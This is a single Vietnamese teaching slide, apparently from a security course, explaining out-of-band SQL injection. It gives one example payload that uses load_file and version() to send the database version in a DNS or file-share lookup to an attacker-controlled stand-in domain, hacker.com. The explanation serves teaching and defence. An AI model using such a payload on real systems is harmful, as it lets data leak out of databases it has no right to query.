

# Dạng 3: Tấn công SQL Injection Ngoài Băng Tần (Out-of-Band SQL Injection - OOB):
Ví dụ: 1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt’));
Truy vấn này buộc cơ sở dữ liệu thực hiện một yêu cầu chia sẻ tệp (hoặc DNS lookup) có chứa phiên bản cơ sở dữ liệu (version()) được nhúng vào tên miền mà kẻ tấn công đang lắng nghe (.hacker.com)

35